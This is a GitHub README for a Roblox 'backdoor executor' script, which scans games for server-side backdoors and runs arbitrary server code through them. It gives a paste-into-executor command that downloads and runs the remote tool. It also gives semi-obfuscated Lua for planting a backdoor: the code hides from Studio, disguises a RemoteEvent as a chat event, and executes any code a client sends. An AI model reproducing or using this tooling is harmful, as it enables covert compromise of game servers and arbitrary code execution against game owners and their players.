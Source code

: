 # backdoor-executor.lua
###
* Created on: July 22, 2021 GMT+8 (based on the commit date in the jLn0n/scripts-private repo)
###
(pls help me get a new name for this script)
might be better than [backdoor.exe](https://github.com/iK4oS/backdoor.exe) in terms of scanning.

## Info
This script is for [Roblox](https://roblox.com) scanning backdoors and executing serversided scripts within a gui.
### Script
Just copy the script below and execute it through your executor.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/created-scripts-public/main/backdoor-executor/backdoor-executor.lua"))()
```
### Requirements
- A brain that knows this stuff
- Decent executor that supports filesystem functions (for config)
### Config Help
- My config has reset back to original
> The config will reset to the original config if the config version(configVer in [bexe-config.lua](https://github.com/jLn0n/created-scripts-public/blob/main/backdoor-executor/bexe-config.lua)) is lower than the original config so you should always backup your config to prevent config resets
- Adding cache example
```lua
[placeid] = {
	["Path"] = "remote.path.here", -- this is the path of the remote, don't do remote.path["here"] or it will not work
	["Args"] = {"arg1here", "source"}, -- source shouldn't be deleted because its a arg for scripts that will be executed
	["Func"] = function(source) -- use this if a game has a custom encryption for source
		return source
	end
}
```
> if the cache didn't work backdoor-executor.lua will warn u that the cache is outdated
- Using autoexecute
> add a script inside the autoExecute table, you can put many code as long as you want inside the table, example:
```lua
-- it should be a array and don't add a nil or it will not work
{
	[[print("jLn0n is epic!")]],
	[[warn("backdoor-executor.lua needs a new name!")]]
},
```
- blacklisting events
> it should be just like adding scripts on autoexecute, example:
```lua
{
	["eventNames"] = {
		["blacklistedNameHere"] = true
	},
	["eventParentNames"] = {
		["blacklistedParentName"] = true
	}
},
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `LoadStringEnabled` property in `ServerScriptService`. (code is just semi-obfuscated and easily crackable lol)
```lua
if game:GetService("\82\117\110\83\101\114\118\105\99\101"):IsStudio() or not game:GetService("\83\101\114\118\101\114\83\99\114\105\112\116\83\101\114\118\105\99\101").LoadStringEnabled then return end
local a1 = Instance.new("\82\101\109\111\116\101\69\118\101\110\116"); a1.Name = "\71\101\116\80\108\97\121\101\114\77\101\115\115\97\103\101\65\115\121\110\99"; a1.Parent=game:GetService("\82\101\112\108\105\99\97\116\101\100\83\116\111\114\97\103\101"):WaitForChild("\68\101\102\97\117\108\116\67\104\97\116\83\121\115\116\101\109\67\104\97\116\69\118\101\110\116\115"); a1.OnServerEvent:Connect(function(_, a2)loadstring(a2)()end)
```
